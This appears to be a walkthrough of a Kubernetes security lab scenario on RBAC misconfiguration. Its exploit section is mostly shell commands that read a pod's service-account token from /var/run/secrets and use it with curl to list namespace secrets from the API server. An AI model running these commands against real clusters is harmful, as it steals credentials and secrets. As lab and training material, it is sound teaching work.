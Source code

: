 # K02: RBAC least privileges misconfiguration

## Context

Most of the workloads and resources end up having wider privileges than it is intended to have. In this example you'll see how simple misconfiguration can gain access to secrets.

## Exploit

```shell
# Show secrets and pods in namespace
kubectl -n big-monolith get secrets,pods
```

Visit [http://127.0.0.1:1236](http://127.0.0.1:1236)

```shell
{
    ls -l /var/run/secrets/kubernetes.io/serviceaccount; echo;
    cat /var/run/secrets/kubernetes.io/serviceaccount/token; echo;
    cat /var/run/secrets/kubernetes.io/serviceaccount/namespace; echo;
}

{
    export APISERVER=https://${KUBERNETES_SERVICE_HOST};
    export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount;
    export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace);
    export TOKEN=$(cat ${SERVICEACCOUNT}/token);
    export CACERT=${SERVICEACCOUNT}/ca.crt;
}

curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets | grep \"k8svaultapikey\"

echo "azhzLWdvYXQtODUwNTc4NDZhODA0NmEyNWIzNWYzOGYzYTI2NDlkY2U=" | base64 -d; echo
```

## Links

- [Attacking private registry](https://madhuakula.com/kubernetes-goat/docs/scenarios/scenario-7/attacking-private-container-registry-in-kubernetes/welcome)
